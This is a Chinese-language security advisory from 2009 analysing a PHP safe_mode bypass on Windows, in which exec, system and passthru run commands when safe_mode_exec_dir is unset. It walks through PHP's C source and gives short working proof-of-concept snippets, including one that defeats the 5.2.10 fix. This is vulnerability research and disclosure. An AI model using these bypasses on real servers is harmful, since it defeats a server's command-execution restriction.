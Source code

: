 ### 安全模式下exec等函数安全隐患
> author: 80vul-B Updata:2009-6-19

昨天php5.2.10出来了,fix了PCH-006里提到的bug:

> Fixed bug #45997 (safe_mode bypass with exec/system/passthru (windows only))

然而遗憾的是还有问题,看看php是咋fix这个的:
``` c
...
        b = strrchr(cmd, PHP_DIR_SEPARATOR);
#ifdef PHP_WIN32
        if (b && *b == '\\' && b == cmd) {
// 注意标红的代码:p
            php_error_docref(NULL TSRMLS_CC, E_WARNING, "Invalid absolute path.");
            goto err;
        }
#endif
...
```

恩,fix后执行exec('\dir')会报错,但是exec('80vul\b\dir')依旧会执行:)

PoC:
``` php
<?php
//updata:2009-6-19
// safe_mode=On and safe_mode_exec_dir not set in php.ini
// test on win32

	echo exec('80vul\b\dir');
//	system('80vul\b\dir');
//	passthru('80vul\b\dir');

?>
```

#### 一、前言

就在昨天milw0rm上公布了一个非常有意思的漏洞:PHP <= 5.2.9 Local Safemod Bypass Exploit (win32).作者看到公告后,在php源代码基础上分析了下这个问题的根本原因,于是就有本文.

#### 二、描叙

在php手册了有一节:<被安全模式限制或屏蔽的函数> 给出了受安全模式影响的一些函数如:
  
* backtick operator 本函数在安全模式下被禁用。 
* shell_exec()（在功能上和 backticks 函数相同） 本函数在安全模式下被禁用。 
* exec() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* system() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* passthru() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  
* popen() 只能在 safe_mode_exec_dir 设置的目录下进行执行操作。基于某些原因，目前不能在可执行对象的路径中使用 ..。escapeshellcmd() 将被作用于此函数的参数上。  

细心的朋友可能发现了在安全模式下,对于exec()/system()/passthru()/popen()这4个函数不是被禁用的,只是需要在safe_mode_exec_dir目录下执行,但当safe_mode=on且safe_mode_exec_dir为空时[默认为空],php在处理这一过程中存在安全隐患,在windows下exec()/system()/passthru()可以通过引入\来执行程序:)

[ps:popen()不存在这个问题,文章后面会给出原因.]

#### 三、代码分析:

以exec()函数为例分析下源码:
``` c
// exec.c
PHP_FUNCTION(exec)
{
	php_exec_ex(INTERNAL_FUNCTION_PARAM_PASSTHRU, 0);
}
// system(),passthru()函数也是调用的php_exec_ex 但popen()不是 
...
static void php_exec_ex(INTERNAL_FUNCTION_PARAMETERS, int mode)
{
	char *cmd;
	int cmd_len;
	zval *ret_code=NULL, *ret_array=NULL;
	int ret;
...
		if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s|z/z/", &cmd, &cmd_len, &ret_array, &ret_code) == FAILURE) {
			RETURN_FALSE;
		}
...
	if (!ret_array) {
		ret = php_exec(mode, cmd, NULL, return_value TSRMLS_CC);
...
int php_exec(int type, char *cmd, zval *array, zval *return_value TSRMLS_DC)
{
...
	if (PG(safe_mode)) {
		if ((c = strchr(cmd, ' '))) {
			*c = '\0';
			c++;
		}
// 取cmd中的参数部分

		if (strstr(cmd, "..")) {
			php_error_docref(NULL TSRMLS_CC, E_WARNING, "No '..' components allowed in path");
			goto err;
		}
// 不允许使用..来跳转目录 ,这个也是php手册描叙不让..的处理代码

		b = strrchr(cmd, PHP_DIR_SEPARATOR);
// 在win下PHP_DIR_SEPARATOR为\,*nix下为/,具体定义在main/php.h
// 如果cmd是80vul\b\dir,那么这部分取得的值是\dir

		spprintf(&d, 0, "%s%s%s%s%s", PG(safe_mode_exec_dir), (b ? "" : "/"), (b ? b : cmd), (c ? " " : ""), (c ? c : ""));
// 这句是这个安全隐患的关键处
// 如果php.ini中没有设置safe_mode_exec_dir的话,80vul\dir经过上面的处理为\dir[如果直接提交dir则会被处理为/dir]
// 这个也是需要"safe_mode_exec_dir为空时[默认为空]"的原因

		if (c) {
			*(c - 1) = ' ';
		}
		cmd_p = php_escape_shell_cmd(d);
// 这里调用了php_escape_shell_cmd处理

...
#ifdef PHP_WIN32
	fp = VCWD_POPEN(cmd_p, "rb");
#else
	fp = VCWD_POPEN(cmd_p, "r");
#endif
...
char *php_escape_shell_cmd(char *str) {
	register int x, y, l;
	char *cmd;
	char *p = NULL;
	
	TSRMLS_FETCH();

	l = strlen(str);
	cmd = safe_emalloc(2, l, 1);
	
	for (x = 0, y = 0; x < l; x++) {
// 这里用的strlen,所以这个函数是not safe binary
		int mb_len = php_mblen(str + x, (l - x));

		/* skip non-valid multibyte characters */
		if (mb_len < 0) {
			continue;
		} else if (mb_len > 1) {
			memcpy(cmd + y, str + x, mb_len);
			y += mb_len;
			x += mb_len - 1;
			continue;
		}
// 这部分代码是为了补se牛提出的那个编码问题:p
// http://www.sektioneins.de/advisories/SE-2008-03.txt

		switch (str[x]) {
...
			case '\\':
...
#ifdef PHP_WIN32
			/* since Windows does not allow us to escape these chars, just remove them */
			case '%':
				cmd[y++] = ' ';
				break;
// 如果是win下的话,就把\等特殊字符去掉
// 那么\dir经过此函数处理后就变成dir了:)
#endif
				cmd[y++] = '\\';
				/* fall-through */
			default:
				cmd[y++] = str[x];
...

// tsrm_win32.c
TSRM_API FILE *popen_ex(const char *command, const char *type, const char *cwd, char *env)
{
...
	cmd = (char*)malloc(strlen(command)+strlen(TWG(comspec))+sizeof(" /c "));
	sprintf(cmd, "%s /c %s", TWG(comspec), command);
	if (!CreateProcess(NULL, cmd, &security, &security, security.bInheritHandle, NORMAL_PRIORITY_CLASS|CREATE_NO_WINDOW, env, cwd, &startup, &process)) {
// 调用CreateProcess创建线程,执行命令
		return NULL;
	}
```

下面看下popen()的代码:
``` c
PHP_FUNCTION(popen)
{
....
	if (PG(safe_mode)){
		b = strchr(Z_STRVAL_PP(arg1), ' ');
		if (!b) {
			b = strrchr(Z_STRVAL_PP(arg1), '/'); 
\\直接使用的 / ,根本没有考虑windows系统下对\的支持,所以也就不存在上面的问题
		} else {
			char *c;
			c = Z_STRVAL_PP(arg1);
			while((*b != '/') && (b != c)) {
				b--;
			}
			if (b == c) {
				b = NULL;
			}
		}
		
		if (b) {
			spprintf(&buf, 0, "%s%s", PG(safe_mode_exec_dir), b);
		} else {
			spprintf(&buf, 0, "%s/%s", PG(safe_mode_exec_dir), Z_STRVAL_PP(arg1));
		}

		tmp = php_escape_shell_cmd(buf);
		fp = VCWD_POPEN(tmp, p);  
....
```

#### 四、测试代码

PoC:
``` php
<?php

// safe_mode=On and safe_mode_exec_dir not set in php.ini
// test on win32

	echo exec('\dir');
//	system('\dir');
//	passthru('\dir');

?>
``` 
#### 五、实际利用:

PHP <= 5.2.9 SafeMod Bypass Vulnerability [by www.abysssec.com]
http://www.milw0rm.com/exploits/8799
